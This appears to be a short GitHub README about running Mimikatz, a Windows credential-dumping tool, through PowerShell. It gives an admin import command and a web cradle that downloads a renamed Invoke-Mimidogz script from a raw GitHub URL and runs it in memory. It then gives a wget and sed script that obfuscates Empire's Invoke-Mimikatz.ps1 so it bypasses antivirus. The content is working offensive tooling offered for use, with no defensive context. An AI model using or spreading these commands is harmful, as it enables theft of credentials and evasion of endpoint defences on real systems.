 # Download Mimikatz web with Powershell

mimikatz 2.1.1 (x64) built on Aug  3 2018

OK for Win 10 (v1803)

Powershell as Administrator

    Import-Module .\Invoke-Mimidogz.ps1
    Invoke-Mimikatz -Command "privilege::debug"

or via web:

    IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mttstt/mimi/master/Invoke-Mimidogz.ps1');Invoke-Mimidogz -Command "privilege::debug" 



# Script to obfuscate mimikatz and bypass AV
    
    wget https://raw.githubusercontent.com/EmpireProject/Empire/7a39a55f127b1aeb951b3d9d80c6dc64500cacb5/data/module_source/credentials/Invoke-Mimikatz.ps1
    sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
    sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
    sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
    sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
    sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1
    sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1
    sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
